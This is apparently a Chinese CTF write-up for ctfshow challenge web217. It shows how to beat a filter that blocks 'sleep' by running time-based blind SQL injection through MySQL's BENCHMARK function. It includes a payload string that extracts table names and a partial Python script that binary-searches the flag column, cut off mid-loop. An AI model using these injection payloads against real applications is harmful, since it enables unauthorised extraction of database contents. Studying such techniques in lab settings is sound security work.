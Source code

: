 ## web217~benchmark绕过sleep

> 查询语句
>
> ```
>        where id = ($id);
>       
> ```
>
> 返回逻辑
>
> ```
>     //屏蔽危险分子
>     function waf($str){
>         return preg_match('/sleep/i',$str);
>     }   
>       
> ```

过滤了 sleep 。

但是还有其他函数， [mysql 时间盲注五种延时方法](https://www.cnblogs.com/-qing-/p/10894310.html)

* BENCHMARK(count,expr)

  BENCHMARK会重复计算expr表达式count次，通过这种方式就可以评估出mysql执行这个expr表达式的效率。

  那我们就让他计算很多次，时间不就长了吗？比如 ` BENCHMARK(21111111+1) `,大约3秒多（口数）

payload:

```
debug=1&ip=1) or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,BENCHMARK(21111111,1+1),0)and (1=1
```

```python
# @Author: yanmie

import requests

url = "http://146ccae4-2a48-4709-94be-49e0657a5056.chall.ctf.show/api/"

# payload = "1) or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},BENCHMARK(21111111,1+1),0)and (1=1"
# 得到 ctfshow_flagxccb,ctfshow_info
# payload = "1) or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxccb'),{},1))>{},BENCHMARK(21111111,1+1),0)and (1=1"
# 得到 id,flagaabc,info
payload = "1) or if(ascii(substr((select group_concat(flagaabc) from ctfshow_flagxccb),{},1))>{},BENCHMARK(21111111,1+1),0)and (1=1"
# 得到 flag

i = 0
result = ""

while True:
    i += 1
    head = 0
    tail =127
    while head<tail:
        mid = (head+tail)//2
        data = {
            "debug" : 1,
            "ip" : payload.format(i,mid)
        }
        try:
```